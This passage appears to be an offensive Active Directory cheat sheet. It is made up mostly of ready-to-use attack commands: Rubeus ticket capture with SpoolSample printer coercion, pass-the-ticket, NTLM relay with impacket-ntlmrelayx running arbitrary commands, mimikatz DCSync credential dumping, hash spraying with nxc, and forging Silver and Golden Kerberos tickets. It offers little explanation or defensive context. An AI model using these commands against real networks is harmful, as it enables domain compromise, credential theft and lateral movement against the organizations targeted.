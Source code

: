 * Execution
1. monitor kerberos ticket with `Rubeus`
```cmd
.\Rubeus.exe monitor /interval:5 /nowrap
```

2. run `SpoolSamle` to invoke printer servive
```cmd
.\SpoolSample.exe <target> <compromised>
```
now base64 encoded ticket should appear at `Rubeus` console

3. load ticket
```cmd
.\Rubeus.exe ptt /ticket:<base64 encoded ticket>
```

## Lateral Movement

### NTLM relay

* invocation methods
- UNC Path Injection
- HTTP access by Phishing
- WebDAV

```
impacket-ntlmrelayx -t 192.168.1.1 -smb2support -c <cmd>
```

### Credential Gathering
* DCSync
```mimikatz
lsadump::dcsync /domain:<domain FQDN> /user:<domain>\<user>
```

### Password Splay
* SMB domain auth with hash
```
nxc smb <hosts> -d <domain> -u <users> -H <hashes> --continue-on-success
```

* SMB local Administrator with hash
```
nxc smb <hosts> -u Administrator -H <hashes> --continue-on-success --local-auth
```

### Silver Ticket
```cmd (mimikatz)
kerberos::golden /domain:domain /sid:<domain sid> /service:<service> /target:<target> /user:<user> /rc4:<ntlm> /ptt
```

### Golden Ticket
```cmd (mimikatz)
kerberos::golden /user:Administrator /domain:<domain> /SID:<domain sid> /rc4:<ntlm> /target:<target> /ptt
```
